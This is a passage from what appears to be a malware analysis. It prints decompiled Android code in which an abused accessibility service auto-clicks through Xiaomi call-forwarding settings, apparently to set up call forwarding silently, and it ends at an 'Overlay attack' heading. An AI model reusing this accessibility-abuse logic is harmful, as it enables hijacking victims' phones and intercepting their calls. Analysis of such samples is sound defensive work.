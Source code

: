 ```cs
                return false;
            }

            if(this.currentSim == SimCard.Sim2) {
                injAccessibilityService0.performClick(accessibilityNodeInfo0.getChild(1), "f");
                return false;
            }
        }
        else if(accessibilityEvent0.getClassName().equals("com.android.phone.settings.GsmUmtsCallForwardOptions")) {
            if(accessibilityEvent0.getSource() != null) {
                this.tryToClickXiaomiCallForwardingButton(injAccessibilityService0, accessibilityEvent0);
                return false;
            }

            int v = 0;
            while(v <= 40) {
                if(v % 5 == 0) {
                    injAccessibilityService0.performClick(injAccessibilityService0.getRootInActiveWindow(), "");
                }

                try {
                    Thread.sleep(1000L);
                    if(injAccessibilityService0.getRootInActiveWindow() != null) {
                        injAccessibilityService0.getRootInActiveWindow().refresh();
                    }

                    boolean z = this.tryToClickXiaomiCallForwardingButton(injAccessibilityService0, accessibilityEvent0);
                }
                catch(InterruptedException unused_ex) {
                    return;
                }

                if(z) {
                    return true;
                }

                ++v;
                continue;
                this.tryToClickXiaomiCallForwardingButton(injAccessibilityService0, accessibilityEvent0);
                return false;
            }
        }
```

## Overlay attack
